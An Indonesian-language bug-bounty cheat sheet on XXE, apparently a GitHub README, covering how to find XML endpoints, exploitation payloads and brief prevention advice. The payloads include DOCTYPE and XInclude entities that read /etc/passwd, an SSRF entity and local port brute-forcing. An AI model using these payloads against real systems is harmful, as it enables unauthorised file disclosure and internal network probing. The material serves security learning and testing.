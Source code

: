 # VULNERABILITY :bug:

<p align="center"><img src="https://user-images.githubusercontent.com/52058660/89898222-85c0a500-dc0a-11ea-9eca-815238a55a38.jpg" width="500"></p>

Online resource:
- [bugbounty-cheatsheet](https://github.com/EdOverflow/bugbounty-cheatsheet) - by EdOverflow
---

## XXE
Sebelum memahami XXE, maka kita harus memiliki pengetahuan dasar XML, DTD dan entity. Tools yang digunakan adalah Burpsuite, lebih mantap lagi jika menggunakan Burp Collaborator (*berbayar*).
- **Detection**
  - [Cari](https://christian-schneider.net/GenericXxeDetection.html) aplikasi yang mengirimkan data dalam format XML (disebut juga XML endpoint)
  - Intercept web page, lalu cari web yang request header `Content-Type`-nya `text/xml` atau `application/xml`
  - Cari web service yang mengunakan XML seperti RSS, SOAP
  - Cara cepat menemukan XML endpoint adalah automasi
  
- **Exploitation**
  - Retrieve Files. Inject [payload](https://github.com/payloadbox/xxe-injection-payload-list) ke bagian `!DOCTYPE`
    > `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///etc/passwd”> ]>`
  - Exploiting to perform Server Side Request Forgery (SSRF). Sama seperti cara di atas tapi protokol yang digunakan adalah `http` dilanjutkan dengan ip server target
    > `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM “http://1”> ]>`
  - Gunakan `XInclude` jika tidak bisa memodifikasi `!DOCTYPE`. Harap baca SOAP dan XML namespace untuk pemahaman lebih lanjut. 
    > `<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`
  - Test local machine port (gunakan burp intruder). Brute port dari ip local, lalu cek bergantian `http` dan `https`
    > `<!DOCTYPE xxe SYSTEM "http://127.0.0.1:§port§/">`
    > `<!DOCTYPE xxe SYSTEM "https://127.0.0.1:§port§/">`
  - Exploiting [RSS validator](https://taind.wordpress.com/2017/12/25/root-me-xml-external-entity/). jika tidak punya server sendiri untuk upload file XML, gunakan [filebin](https://filebin.net/)
    
- **Prevention**
  - Disable DTD
  - Disable entity saja
---
## Subdomain Takeover

---
## SQL Injection

---
## XSS


